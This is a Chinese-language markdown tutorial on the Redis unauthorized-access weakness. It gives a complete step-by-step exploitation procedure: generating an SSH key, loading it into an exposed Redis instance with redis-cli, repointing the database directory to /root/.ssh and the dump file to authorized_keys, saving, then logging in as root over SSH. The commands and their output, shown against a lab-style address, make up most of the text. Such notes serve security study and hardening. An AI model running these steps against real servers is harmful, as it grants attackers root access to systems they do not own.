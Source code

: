 Redis 未授权访问漏洞

如果将 Redis 绑定在 0.0.0.0:6379，会将Redis服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问Redis以及读取Redis的数据。
攻击者在未授权访问Redis的情况下可以利用Redis的相关方法，如果运行 redis 的用户是 root 用户，攻击者可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以直接登录目标服务器。

### 利用步骤

1. 在攻击方生成一对 ssh key (如果已经生成过则可跳过此步骤)

 ```
  $ ssh-keygen -t rsa
 ```
 
 默认情况下，生成后在用户的家目录下的 .ssh 目录下
 
2. 将生成的公钥的值写入目标服务器

 ```
 $ (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /tmp/foo.txt
 $ cat /tmp/foo.txt | redis-cli -h 172.17.0.2 -p 6379 -x set crackit
 ```
 
 > 加上 `\n\n` 是为了不破坏 ssh public key
 > 
 > crackit 是设置的 key，可随意指定

3. 连接目标

 ```
 $ redis-cli -h 172.17.0.2 -p 6379
172.17.0.2:6379> config set dir /root/.ssh/
OK
172.17.0.2:6379> config get dir
1) "dir"
2) "/root/.ssh"
172.17.0.2:6379> config set dbfilename "authorized_keys"
OK
172.17.0.2:6379> save
OK
 ```
 
 将目录设置为 /root/.ssh/ 目录后，再将备份文件名设置为 `authorized_keys`，通过 save 指令即可写入文件。

4. 通过 ssh 连接目标

 ```
 $ ssh root@172.17.0.2 -i ~/.ssh/id_rsa
 ```
 > 默认会使用 `id_rsa` 如果改过文件名则可以用 -i 参数来指定。